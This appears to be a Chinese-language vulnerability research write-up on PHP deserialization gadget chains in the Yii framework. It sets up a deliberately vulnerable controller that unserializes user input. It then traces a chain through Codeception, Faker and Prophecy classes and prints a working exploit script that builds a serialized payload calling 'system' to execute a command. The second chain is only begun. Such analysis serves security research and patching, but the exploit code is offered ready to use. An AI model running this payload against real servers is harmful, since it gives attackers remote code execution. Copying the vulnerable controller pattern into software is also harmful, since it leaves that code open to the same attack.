

# 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞


## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链


> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的


> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链



### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的